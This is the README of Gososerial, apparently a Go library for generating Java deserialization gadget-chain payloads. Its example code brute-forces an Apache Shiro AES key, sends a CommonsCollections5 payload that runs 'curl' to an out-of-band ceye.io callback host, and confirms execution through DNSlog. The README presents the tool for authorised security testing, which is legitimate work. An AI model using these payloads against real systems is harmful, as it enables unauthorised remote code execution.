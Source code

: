 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1链

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

- Support CommonsCollections1-7,K1-K4,CommonsBeanutils1 Now

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Example

```go
func main() {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

## 免责申明

未经授权许可使用Gososerial攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的。
